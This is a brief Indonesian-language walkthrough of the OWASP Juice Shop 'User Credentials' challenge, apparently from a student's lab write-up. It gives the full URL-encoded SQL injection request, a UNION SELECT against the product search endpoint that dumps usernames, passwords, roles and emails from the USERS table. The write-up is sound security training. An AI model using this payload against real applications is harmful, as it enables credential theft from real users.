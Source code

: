 # Soal User Credentials

**Description:** Retrieve a list of all user credentials via SQL Injection.

**Resource:** https://demo.owasp-juice.shop/#/score-board?categories=Injection&showDisabledChallenges=false

## Langkah Pengerjaan:
1. Di awal sebelum web dibuka, saya mencoba mengaktifkan intercept di BurpSuite dan menemukan sebuah request untuk api `GET /rest/products/search?q= HTTP/1.1`
![alt text](assets/image11.png)

2. Ternyata endpoint ini dimaksudkan untuk mengambil semua data produk yang ada dan sekaligus berhubungan langsung dengan database
![alt text](assets/image12.png)

3. Kemudian, dengan menambahkan query yang sudah dimodifikasi seperti ini `GET /rest/products/search?q=test'))%20UNION%20SELECT%20username,%20password,%20role,%20deletedAt,%20isActive,%20createdAt,%20id,%20email,%20profileImage%20FROM%20USERS--` saya berhasil mendapatkan daftar kredensial semua user yang terdaftar
![alt text](assets/image13.png)

Soal ini berhasil diselesaikan dengan mengikuti petunjuk pada write-up di https://github.com/Whyiest/Juice-Shop-Write-up/blob/main/4-stars/user_credentials.md